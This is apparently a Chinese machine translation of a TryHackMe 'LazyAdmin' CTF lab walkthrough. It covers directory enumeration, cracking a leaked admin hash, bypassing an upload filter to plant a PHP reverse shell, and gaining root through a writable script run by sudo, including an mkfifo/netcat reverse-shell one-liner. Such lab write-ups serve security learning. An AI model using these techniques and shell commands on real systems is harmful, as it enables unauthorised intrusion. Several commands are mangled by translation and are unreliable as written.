# TryHackMe- LazyAdmin CTF 报道(详细)

> 原文：<https://infosecwriteups.com/tryhackme-lazyadmin-ctf-writeup-detailed-68cee0ef826?source=collection_archive---------0----------------------->



CTF 报道#3

欢迎各位！我们将乘坐地铁去 CTF。我希望你会喜欢这篇文章。有两种方法我们会得到根。继续读下去，你会在末尾找到它们。

 [## TryHackMe | LazyAdmin

### TryHackMe 是一个学习和教授网络安全的在线平台，全部通过您的浏览器完成。

tryhackme.com](https://tryhackme.com/room/lazyadmin) 

让我们开始吧！！享受流动吧！！



**部署机器。**
与此同时，当你等待机器被部署时，我要你在桌面上快速创建一个 CTF 目录，并在 CTF 目录中创建一个 nmap 目录。



**Nmap 扫描:**

> *nmap-sC-sV-oN nmap/root me<MACHINE _ IP>*

*   -sC:默认脚本
*   -sV:版本检测
*   -oN:输出将存储在您之前创建的目录“nmap”中



Nmap 扫描输出

盒子上开了 2 个端口:
22/ssh-OpenSSH 7.2p 2
80/http-Apache/2 . 4 . 18
检测到 OS-Linux

因为端口 80 是打开的，所以让我们导航到 URL http://<target_ip></target_ip>



Apache 默认页面

我们可以尝试通过 gobuster 找到 URL 上隐藏的目录。

> gobuster dir-u http://<machine_ip>-w<path_to_wordlist></path_to_wordlist></machine_ip>

*   -u : URL
*   -w:单词表



您可以在 gobuster 中使用更多标志:

*   -问:安静，无声扫描。将隐藏横幅。
*   -o:要存储在目录中的输出
*   -x:搜索扩展名，如 html、txt、php、phtml 等。



gobuster <machine_ip>/content 只找到 1 个目录。可能会很有趣。事不宜迟，让我们导航到目录，并寻找任何可以帮助我们枚举过程的信息。</machine_ip>

此外，我们可以做的是再次使用 gobuster 工具，在我们已经找到“内容”的目录中找到隐藏的目录



令人惊讶的是，我们有一堆文件夹要检查。它们会导致任何事情。

逐个导航到目录。从我们发现的第一个开始。

<target_ip>/内容/图片</target_ip>



没有什么能引起我的注意，或者看起来非常有趣。

<target_ip>/内容/js</target_ip>



没有什么能引起我的注意，或者看起来非常有趣。

<target_ip>/content/inc/</target_ip>



有意思……



很可爱。我们有一个 mysql 备份文件。那可能对我们有帮助。让我们把它下载到我们的系统。

让我们继续其他目录并探索它们。

<target_ip>/内容/as/</target_ip>



厉害！！登录页面！！

到目前为止很棒！！还要检查页面的源代码，看看是否有任何隐藏的白色文本或对我们有用的注释。已经看过了，没什么特别的。

快速导航到其他目录。

<target_ip>/content/_themes/</target_ip>

<target_ip>/内容/附件/</target_ip>



“_themes”和“attachments”目录中没有任何内容。

综上所述，到目前为止我们所得到的只是一个对提取信息有潜在重要性的文件。那就是:MySQL-bakup _ 20191129023059–1 . 5 . 1 . SQL

2019 —年
11 —月
29 —日
02 —小时
30 —分钟
59 —秒
1.5.1 —网站使用的 CMS 版本。在这个盒子里，甜心。

我们可以使用“cat”来检查备份文件。也许那里有我们需要寻找的东西。保持警惕。从上到下开始分析。



霍雷。我发现了一些东西。仔细看。向下滚动，你可能会看到它..



管理员:经理
密码:42f 749 ade 7 F9 e 195 BF 475 f 37 a 44 cafcb

很明显，密码是散列形式的。我们来解密一下。

去 crack station/cyber chef/hash-identifier 分析 hash /开膛手约翰。太多了，无法选择。我会去 crackstation 解密哈希。



！！太棒了！！我们已经解密了密码！！

我们可以尝试用我们拥有的凭证登录到 <target_ip>/content/as/ login 页面。</target_ip>



我们进去了。！现在我们要做什么？首先，浏览网站，找到可以上传脚本的地方。我发现了几个页面，我们可以在那里创建一个新的帖子或插件列表页面。我们将创建一个新帖子并上传一个 php-reverse-shell.php



在底部滚动以找到按钮附件

对于这项任务，我们将上传 php 反向外壳脚本。
我经常使用 pentest monkey php-reverse-shell.php 脚本，试图通过 netcat 获得一个反向外壳。【https://github.com/pentestmonkey/php-reverse-shell】Git 链接下载脚本或在终端克隆:



将 IP 更改为您的主机 IP，将端口更改为您想要监听的主机端口

我已经配置了脚本，现在我们将上传脚本。

我们现在需要在 netcat 上启动一个监听器，并尝试获得一个 shell。手指交叉。



我们需要执行上传的脚本。

还记得之前我们在 gobuster 中发现一个目录实际上是空的，但现在不会了。或许是吧。让我们找出答案。

<machine_ip>/内容/附件</machine_ip>



这是空的！！！但是为什么呢？这是因为。php 扩展正在被过滤，不允许上传，因此我们必须通过将脚本重命名为不受欢迎的扩展来绕过上传，例如 phtml，php5 等。

> 我们需要重命名，所以让我们使用命令:
> mv php-reverse-shell.php PHP-reverse-shell . phtml



再次重复该过程，并尝试查看它是否绕过上传。



我们已成功上传或绕过上传。我们将执行这个脚本，并检查我们的 netcat 监听器，看看我们是否已经获得了 shell。



我们成功获得了壳牌。
但是壳不是稳定的壳。
我们如何获得稳定的外壳？让我给你带路。



> *$ python-c ' import pty；pty . spawn("/bin/bash ")'
> Ctrl+Z
> stty raw-echo
> fg
> export TERM = xterm*

我们现在有一个稳定的外壳。
上面的命令将让你通过 TAB 键自动完成，清除屏幕，在 shell 中轻松导航。

让我们寻找我们的 user.txt 标志

> #1.1 user.txt
> 回复:xxxxxxxxxxxxxxxxxxxxx

我们还需要做什么？是的，你想得对。
我们需要提升我们的权限以成为 root 用户并获得 root.txt 标志。

> 使用命令:sudo -l



我们可以看到我们可以使用 perl 脚本语言，并且有一个备份文件的路径。

导航到/home/itguy 目录。
使用“ls -al”查看 backup.pl 文件的权限。



让我们“进入”backup.pl 文件以查看其内容。我们能做到吗？



是的，我们可以。/etc/目录中有一个 copy.sh 脚本，该脚本在我们执行 backup.pl 文件时运行。

使用“cat /etc/copy.sh”。当我们“捕捉”一个脚本时，它会执行脚本中的命令。



这个脚本在做什么？它将/bin/bash 复制到/tmp/bash 中，并对/tmp/bash 文件执行+s(超级用户)权限。

如果您查看/tmp/

只需 nano /etc/copy.sh
完全删除该命令，只需编写一个小命令:
/tmp/bash -p
Ctrl+O 保存，Ctrl+C 退出

重新运行命令
sudo/usr/bin/perl/home/it guy/backup . pl



！！干得好！！我们现在是根了！！你可以花一点时间来享受这种感觉，☺！！

让我们探索一下提升权限的第二种方法。

如果您更改/etc/目录中 copy.sh 文件的内容，您可以获得 root。

我在下面放的命令是一个通过 msfvenom 生成的恶意有效载荷，它将提升权限。

> RM/tmp/f；mkfifo/tmp/f；cat/tmp/f |/bin/sh-I 2 > & 1 | NC<host_ip><host_listening_port>>/tmp/f</host_listening_port></host_ip>

更改值。



通过 netcat 工具在端口 9002 上启动我们的监听器。



执行命令。

检查一下你的 netcat 监听器



！！干杯！！我们粉碎它！！我们可以确认我们是 root！！让我们得到我们的根旗！！

导航到/root/目录，黄金就在那里。



> # 1.2 root . txt
> Ans:xxxxxxxxxxxxxxxxx

这是一个把手弄脏的好盒子。对于刚开始做 CTFs 的人，我会推荐你试着做这个盒子。永远记住，最好的方法是先尽力而为，只有当陷入困境时，才从文章中寻求帮助。

我今天就到此为止了。

如果你喜欢这篇文章或者这篇文章在任何可能的方面帮助了你，请在评论中告诉我或者用掌声分享你的爱。

> 作为 10 月 PentesterLab 赠品的一部分提交

跟着我。

谢谢你抽出时间。

保重，注意安全，继续黑！

**-哈桑·谢赫**